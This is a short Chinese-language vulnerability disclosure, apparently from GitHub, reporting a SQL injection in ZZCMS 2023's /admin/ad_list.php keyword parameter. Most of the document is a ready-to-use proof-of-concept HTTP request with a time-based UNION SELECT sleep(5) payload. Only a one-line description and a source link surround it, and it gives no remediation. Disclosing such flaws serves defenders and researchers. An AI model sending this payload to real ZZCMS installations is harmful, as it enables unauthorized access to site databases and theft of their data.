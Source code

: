 # zzcms系统接口ad_list.php存在SQL注入漏洞

ZZCMS 2023是一款快速建站系统，产品招商模板程序源码，可以快速搭建产品招商网。例如医药招商、保健品招商、化妆品招商、农产品招商、孕婴童招商、酒类副食品等。 /admin/ad_list.php组件中关键字过滤导致sql注入漏洞

## poc

```javascript
GET /admin/ad_list.php?action=pass&&keyword='+union+SELECT+1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)+--+x HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close
```

![image-20250124101147558](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501241011639.png)

## 漏洞来源

- https://github.com/En0t5/vul/blob/main/zzcms/zzcms-add_list-sql-inject.md